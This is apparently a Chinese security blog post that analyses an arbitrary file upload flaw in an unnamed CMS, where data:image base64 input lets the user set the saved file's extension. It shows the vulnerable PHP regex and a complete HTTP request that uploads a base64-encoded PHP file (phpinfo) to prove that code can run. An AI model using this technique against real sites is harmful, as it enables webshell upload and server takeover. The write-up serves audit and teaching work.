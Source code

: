 # 浅谈data:image格式文件上传

21年底和同学兼同事测试某个项目时，他曾问我图片上传时候数据包中以data:image格式来上传（读取）的，有没有什么方法上传shell呢，当时经验太少也没想出方法。

过了一年来回顾下这个问题，就以某CMS文件上传漏洞的源码为例分析一下。

## 代码逻辑

data:image能算作是一种编码格式，常用于图片的压缩，后面跟一串base64字符串。直接将data:image完整数据敲进浏览器栏里就能看到图片显示出来
[![pS3VEOe.png](https://s1.ax1x.com/2023/01/17/pS3VEOe.png)](https://imgse.com/i/pS3VEOe)

data:image格式的上传如果不严格校验文件后缀，会造成任意文件上传。以我之前审计的某CMS的文件上传漏洞为例，代码如下：
[![pS3VtTs.png](https://s1.ax1x.com/2023/01/17/pS3VtTs.png)](https://imgse.com/i/pS3VtTs)
src传入字符串，正则匹配两处字符串保存到matches数组中，第一处是格式，第二次是base64编码的数据

 - [ ] 代码
       
       preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)
       
       $base64 = $matches[2];
       
       $type = $matches[1];
       
       $filename = md5($base64).".$type";

最后保存预览文件到本地/preview目录下，文件名以md5格式进行命名，后缀为用户传入的后缀

因此可以构造如下数据包

 - [ ] 数据包
       
       POST /xxxx HTTP/1.1
       
       Host: xxxx
       
       Cache-Control: max-age=0
       
       Upgrade-Insecure-Requests: 1
       
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
       AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0
       Safari/537.36
       
       Accept:
       text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.9
       
       Accept-Encoding: gzip, deflate
       
       Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
       
       Cookie: PHPSESSID=0ufj3o7j0o7ovds8uuln7ho7m6
       
       Connection: close
       
       Content-Length: 46
       
       data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

上传php格式base64编码的<?php phpinfo();?>进行验证

[![pS3V60J.png](https://s1.ax1x.com/2023/01/18/pS3V60J.png)](https://imgse.com/i/pS3V60J)
[![pS3Vym4.png](https://s1.ax1x.com/2023/01/18/pS3Vym4.png)](https://imgse.com/i/pS3Vym4)

![image]([./matoi/terminal.png](https://github.com/youki992/matoi/blob/main/%E6%98%9F%E7%90%83%E4%BC%98%E6%83%A0%E5%88%B8.png)https://github.com/youki992/matoi/blob/main/%E6%98%9F%E7%90%83%E4%BC%98%E6%83%A0%E5%88%B8.png)
